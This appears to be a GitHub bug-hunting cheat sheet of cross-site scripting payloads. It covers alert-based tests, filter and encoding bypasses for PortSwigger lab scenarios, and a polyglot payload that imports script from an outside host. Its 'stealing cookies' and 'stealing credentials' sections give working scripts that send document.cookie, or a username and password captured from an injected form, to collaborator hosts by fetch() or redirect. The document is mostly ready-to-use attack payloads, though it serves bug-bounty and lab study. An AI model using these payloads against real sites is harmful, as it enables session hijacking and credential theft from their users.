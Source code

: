 ## Testing XSS
**One Payload For Testing All Kinds of scenario**
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
<!--</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76-->
```
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76
```
**Note**
  1. Check html tag and attribute for reflection.
  2. If < and > symbol reflecting in source code without encoding, XSS possible.
  3. If ' or " symbol reflecting in source code without encoding, XSS possible.

**Testing XSS in every type of scenario**
```js
<script>alert(1337)</script>

><script>alert(1337)</script>

<sCrIpt>alert(1337)</sCripT>

">cyborg71<script>alert(1337)</script>

<svg/ onload=alert(1337)//

<Svg/OnLoad=(confirm)(1337)<!--

<body/OnResize=(confirm)(123456)<!--

<img src=x onerror=alert(1337)>

</script><img src=x onerror=alert(1337)>

<iframe src="javascript:alert(1337)">

';alert(1337)//

${alert(1337)}

<custom-tag onmouseover='alert(1337)'>

/?x=y'%09onclick='alert(1337)'%09accessKey='x'

/?'accesskey='x'onclick='alert(1337)

javascript:alert(1337) (Inject in href attribute)

y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E

"><h1>cyborg.71</h1>

<script onclick="alert(1337)">

<a href="javascript:alert('XSS')">Click me</a>

<img src=https://i.imgflip.com/8uo0t9.jpg>
```
Here, ```%09``` represents the horizontal tab character and ```%0A``` represents the newline.
<br>
**External source of payloads**

https://github.com/payloadbox/xss-payload-list

**For filter bypass**

https://github.com/terjanq/Tiny-XSS-Payloads

## Payload for stealing cookies
```js
<script>
fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
```js
<script>location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';</script>
```
## Payload for stealing credentials
```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
## XSS with filter evasion
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
**XSS Filter Evasion Cheat Sheet**
<br>
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
## For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
## Angle brackets HTML-encoded bypass
**Reflected XSS into HTML attribute with angle brackets HTML-encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
<br>
![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
" onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
<br>
<br>
**Reflected XSS into a JavaScript string with angle brackets HTML encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5)
<br>
<br>
## Reflected XSS into a JavaScript string with single quote and backslash escaped
In some scenarios the payload might not work because of single quote and backslash escape.
![Screenshot from 2024-07-01 04-27-49](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/af236bde-554a-45f9-8e61-77f4409e5ef4) <br>
In this situation, you close the script tag inject your payload.
```
</script><img src=x onerror=alert(1337)>
```
And then the final code will look like this after response.
![Screenshot from 2024-07-01 04-37-54](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/8221e31d-5597-464b-8ed2-2b4d32368b9d)
<br>
**Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**
<br>
Sometimes previous method might not work because of angle brackets and double quotes HTML-encoded and single quotes escaped.
![Screenshot from 2024-07-01 21-47-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/320694fa-5d32-468d-bab3-62bc18829582)<br>
In this case you can try this payload
```
\';alert(1337)//
\'-alert(1)//
```
And the final code will look like this.
<br>
![Screenshot from 2024-07-01 21-50-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/3c75b4b8-173c-4bf7-8c3b-bc87dbc90386)
## Tags and Attribute Block Bypass
## Reflected XSS into HTML context with most tags and attributes blocked
<br>
Bruteforce for getting allowed tags.
<br>
***Check this Portswigger lab for details:*** https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked.
```
"><body onresize=alert(1337)>
```
<br>
  
**Reflected XSS into HTML context with all tags blocked except custom ones**
<br>
Key Note
```tabindex="1"```, ```id="a1"```, ```#a1```
```
<custom-tag tabindex="1" onfocus='alert(1337)' id="a1">#a1
<xss id=a1 onfocus=alert(document.cookie) tabindex=1>#a1
```
## Reflected XSS with some SVG markup allowed
```
"><svg><animatetransform onbegin=alert(1337)></animatetransform></svg>
"><svg><animatetransform onbegin='alert(1337)'></animatetransform></svg>
```
## Reflected XSS in canonical link tag
Make your custom parameter in a url path such as httpx://a.com/?```whoami=cyborg71```.
![Screenshot from 2024-07-01 03-55-35](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/67df34d4-e22f-49cf-a1f0-786a9113b316)<br>
After this, If we get a canonical link in page source, then there might be a xss vulnerability exists. In this case try this payloads.
```
/?whoami=cyborg71'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
```
Now, use this keys to get reflection.

    On Windows: ALT+SHIFT+X
    On MacOS: CTRL+ALT+X
    On Linux: Alt+X

